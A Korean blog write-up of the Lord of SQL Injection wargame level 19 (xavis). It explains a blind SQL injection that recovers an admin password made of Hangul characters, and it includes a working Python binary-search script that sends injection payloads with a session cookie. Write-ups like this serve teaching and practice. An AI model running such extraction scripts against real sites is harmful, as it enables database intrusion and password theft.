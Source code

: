 ```yaml
---
title: LOS - 19번 xavis
category: [Wargame, Lord of SQL Injection]
---
```


# [19] xavis

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbOK0DW%2FbtrnE823tg2%2FTk9pBzePoYO2Rqn92Lq8Xk%2Fimg.png">

## 풀이
오랜만에 만나는 Blind SQLi 문제다.

solve 조건은 언제나와 같이 admin 계정의 pw를 알아내는 것이다.

<br>

preg_match를 보면 regex와 like를 필터링하고 있다.

regex는 Sql 정규표현식인 regexp를 걸러내기 위한 것으로 보인다.

정작 =는 필터링 하고 있지 않기 때문에 유의미한 제약이 있어보이진 않는다.

<br>

그런데 너무 제약이 없다는 점이 좀 꺼림칙하다.

겉으로 보기에는 그냥 기본적인 Blind 문제 같지만... 그럴리가 없는데...?

<br> 

아니나 다를까, 기존의 자동화 코드가 먹히질 않았다.

필터에 걸린 것도 뭐가 잘못된 것도 아닌데 아스키 코드를 전체 다 돌고도 맞는 문자를 뽑아내오지 못했다.

불현듯 머릿속을 스친 생각은... 아 이거 한글인 것 같다ㅋㅋㅋㅋㅋㅠ

<br>

한글은 유니코드 문자셋을 통해 표현되기 때문에 당연한 말이지만 아스키 번호를 백날 돌아봐야 찾을 수가 없다.

한글로 된 데이터를 탐색하는 방법에는 여러가지가 있을 수 있겠지만 새로운 챌린지가 생긴 김에 그냥 내 식대로 (야매로) 한번 접근해보았다...ㅎ!

<br>

한글을 표현하는 유니코드는 정해진 16진수 값을 갖고 있고, 이 값들은 10진수로 변환이 가능하다.

10진수로 표현된 값은 대소 비교가 가능하다는 점과 이전에 몇번 등장했었던 ord 함수를 이용해보았다.

- 한글 유니코드 10진수 : 44032 '가' ~ 55203 '힣'

- ord : 해당 문자의 유니코드 값을 반환하는 함수

<br>

추가로, 이전까지와는 달리 탐색해야하는 번호의 개수가 무지막지하게.. 많기 때문에

세월아 네월아 하나하나 탐색해서는 시간이 과도하게 오래 걸리게 되는 문제에 직면하게 되었다.

그래서 미뤄뒀던 2진 탐색 알고리즘까지 한번 구현해보았다.


<br>
 

**2진 탐색을 적용한 LoS 19번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 19를 시작합니다")

ans = ""
endpoint = False

for len in range(1, 30):
    if(endpoint):
        break
    print(f"{len}번째 문자에 대해 검색합니다..")
    start = 44032
    end = 55203
    while True:
        if(endpoint):
            print(f"{len}번째 문자는 존재하지 않습니다.")
            print(f"👏 pw의 정체는 [{ans}]입니다!")
            break
        if(start==end):
            endpoint = True
        middle = round((start+end)/2)
        param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))>={middle} %23"
        if("Hello admin" in send(param)):
            param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))={middle} %23"
            if("Hello admin" in send(param)):
                print(f"{len}번째 문자의 십진수 → {middle}")
                ans += chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue
```

① HTTP 요청을 보내는 과정을 send() 함수로 분리했다.

② Sql에서 한글은 3Byte로 저장되는데, 이런저런 예외사항이 있기 때문에 length 함수로 정확한 문자열의 길이를 알아낼 수는 없다고 한다. 그래서 그냥 1부터 30까지 돌다가 pw를 완전히 찾으면 알아서 반복문을 탈출하게끔 구현했다. 설마 pw가 30자 보다 길진 않겠지...

③ 한글이 아닌 다른 문자가 섞여있을 시에는 사용할 수 없다는 분명한 한계점이 있다. 일단 시도해보고 안되면 수정하려고 했지만 운이 좋게도 pw가 그냥 한글 뿐이라서 여기서 구현이 종료되었다. 추가적인 구현을 해야 됐었더라면, 아마 해당 문자의 ord 값이 44032 보다 작을 시 바로 아스키 번호를 돌게끔 해주었을 것 같다.

<br>

다음은 해당 코드의 실행 결과이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzpB3U%2FbtrnBiTbjuW%2FXg3aUFYa1g6w3znjkuyNa1%2Fimg.png">


Blind 공격 결과, 입력할 답은 `우왕굳` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FqxRPT%2FbtrnCl9u4o0%2FgKISYRR1ebKg5PoezUu2n0%2Fimg.png">